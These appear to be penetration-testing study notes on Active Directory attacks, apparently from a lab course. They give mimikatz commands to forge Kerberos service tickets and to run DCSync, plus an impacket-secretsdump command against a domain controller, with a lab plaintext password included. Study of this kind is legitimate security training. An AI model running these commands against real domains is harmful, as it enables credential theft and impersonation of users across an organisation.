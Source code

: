 and grab the NTLM one

domain SID:
whoami /user
for the SID of the current user

kerberos::golden /sid:<SID> /domain:<domain> /ptt /target:<target> /service:<service type> /rc4:<NTLM> /user:<username>
example:
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin

note that sid looks like: S-1-5-21-1987370270-658905905-1781884369-1105
ignore -xxxx for this

/sid: for SID
/domain: for domain
/ptt: inject the forged ticket into memory
/target: target address / ip
/serice: http, smb, service type
/rc4: NTLM hash
/user: username

klist
shows tickets

Microsoft created sercurity patch to PAC struct, PAC_REQUESTOR need to be validated by the domain controller, no more forging for non existing user, in place since 2022 Oct 11


Domain Controller Synchronization

Directory Replication Serice: Remote Protocol that uses replication to synchronize redundant domain controller

a controller may request update for object using: IDL_DRSGetNCChanges

the update process doesn't check if request came from a known domain controller

process only verifies SID has correct privilege

we can issue rogue update request to dc from user with certain rights

user neeed: 
Replicating Directory Changes
Replicating Directory Changes All
Replicating Directory Changes in Filtered Set 
rights

members of domain admin, enterprise admin and administrators group has them

use mimikatz && impacket-secretsdump 

jeffadmin :: BrouhahaTungPerorateBroom2023!

in mimikatz:
lsadump::desync /user:<domain>\<user>
lsadump::dcsync /user:corp\dave

grab Hash NTLM
this is m 1000

we can try to do it from kali

impacket-secretsdump -just-dc-user <username> <domain>/<user>:"<password>"@<ip>

impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70

